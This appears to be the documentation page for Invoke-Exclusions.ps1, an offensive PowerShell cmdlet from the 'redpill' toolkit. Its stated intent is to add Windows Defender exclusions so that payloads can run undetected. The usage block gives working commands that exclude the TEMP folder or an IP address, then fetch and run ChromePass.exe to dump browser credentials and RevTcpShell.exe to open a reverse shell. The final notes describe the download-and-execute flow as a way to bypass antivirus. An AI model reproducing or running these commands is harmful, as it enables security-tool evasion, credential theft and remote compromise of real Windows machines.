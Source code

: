 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Exclusions](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WD-Bypass/Invoke-Exclusions.ps1)|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Types: **ExclusionPath, ExclusionProcess, ExclusionExtension, ExclusionIpAddress**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrlMimikarz.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Full

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionIpAddress" -Exclude "192.168.1.72"


## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/RevTcpShell.exe" -OutFile "$Env:TMP\RevTcpShell.exe"
# 3º - cd $Env:TMP; Start-Process RevTcpShell.exe
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionIpAddress" -Exclude "192.168.1.72" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/RevTcpShell.exe" -Arguments "-port 666"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

<br />

### Final Notes
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion definition (bypassing detection)
Use a comma (,) to split multiple exclusion entrys ( -exclude 'exe,vbs' )

[PARAMETER URI LIMITATIONS]
This function creates the exclusion on Defender then downloads the -uri 'script\PE'
to -exclude 'directory' and finally executes the script.ps1 OR the binary (PE) from
the exclusion directory with the intent to evade detection ( download + execution )

But 'execution' of payloads under -uri invocation is advised to be only under
-type parameter 'ExclusionPath' because is exclusion is more comprehensive
```
